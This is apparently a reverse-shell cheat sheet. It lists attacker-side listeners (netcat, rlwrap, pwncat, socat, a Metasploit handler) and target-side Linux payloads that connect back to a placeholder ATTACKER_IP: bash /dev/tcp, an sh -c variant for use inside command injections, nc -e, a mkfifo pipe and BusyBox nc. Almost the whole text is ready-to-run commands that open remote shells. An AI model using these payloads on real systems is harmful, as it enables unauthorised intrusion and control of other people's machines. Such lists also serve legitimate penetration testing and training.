 Replace ATTACKER_IP and LPORT with your values.

First, pick your interface IP:
- Linux/Kali: ip a | grep -A2 tun0
- Windows attacker: ipconfig

### 1) Start a listener (attacker)
Netcat basic:
```bash
nc -lvnp LPORT
```

Netcat with line-editing/history:
```bash
rlwrap -cAr nc -lvnp LPORT
```

pwncat (nice TTY and helpers):
```bash
pwncat-cs -lp LPORT
```

socat full TTY listener:
```bash
socat -d -d TCP-LISTEN:LPORT,reuseaddr,fork FILE:`tty`,raw,echo=0
```

Metasploit handler (if using MSF payloads):
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/shell_reverse_tcp; set LHOST ATTACKER_IP; set LPORT LPORT; exploit -j"
```

### 2) Linux/Unix reverse shell payloads (target)
Bash TCP (requires bash and /dev/tcp):
```bash
bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1
```

Bash via sh -c (useful inside injections):
```bash
sh -c 'bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1'
```

Netcat (with -e support, e.g., traditional nc or Ncat on Windows; not always available on Linux):
```bash
nc ATTACKER_IP LPORT -e /bin/sh
# or
nc -e /bin/bash ATTACKER_IP LPORT
```

Netcat (portable mkfifo trick; works when -e is not supported):
```bash
mkfifo /tmp/f; nc ATTACKER_IP LPORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

BusyBox nc (if available):
```bash
busybox nc ATTACKER_IP LPORT -e /bin/sh
```
